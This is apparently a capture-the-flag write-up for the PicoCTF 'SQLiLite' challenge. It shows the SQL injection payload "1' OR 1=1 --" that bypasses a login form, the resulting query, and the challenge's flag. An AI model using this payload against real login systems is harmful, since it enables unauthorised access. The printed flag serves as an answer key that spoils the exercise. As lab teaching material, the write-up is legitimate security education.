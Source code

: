 # 🛡️ PicoCTF Lab Walkthrough – SQLiLite

## 📌 Challenge Info
- **Category**: Web Exploitation  
- **Points**: 300  
- **Difficulty**: Medium  
- **Challenge Link**: [SQLiLite on PicoCTF](https://play.picoctf.org/practice/challenge/178)

---

## 📝 Challenge Description
> Exploit a SQL injection vulnerability in a login form to retrieve the flag.

---

## 🔍 Initial Recon
**Objective:** Bypass authentication using SQL injection.  
- **Files provided**: None  
- **Services/Ports**: Web login page  
- **Hints given**: None  

---

## 🛠️ Tools & Commands Used
| Tool / Command | Purpose |
|----------------|---------|
| Browser Dev Tools | Inspect login page & source |
| SQL payload `' OR 1=1 --` | Bypass authentication |

---

## 🧠 Step-by-Step Solution
1. **Test Default Credentials**  
   ```bash
   username: test
   password: test
→ Login failed. Backend query looked like:

```mysql
SELECT * FROM users WHERE name='test' AND password='test';
```
2. **SQL Injection Payload**
```text
username: 1' OR 1=1 --
password: anything
```
Query became:
```mysql
SELECT * FROM users WHERE name='1' OR 1=1 --' AND password='anything';
```
→ Login bypass successful.

3.**Source Code Inspection**
Hidden <p> tag in HTML revealed flag.

## 🧾 Flag
```text
picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}
```
## 📚 Learning Outcomes
SQL injection bypass technique (' OR 1=1 --).

Always inspect source code for hidden data.

## 🛡️ Skills Learnt
Web login exploitation

SQL query manipulation

Source inspection in browser

## 🔗 References
[OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)

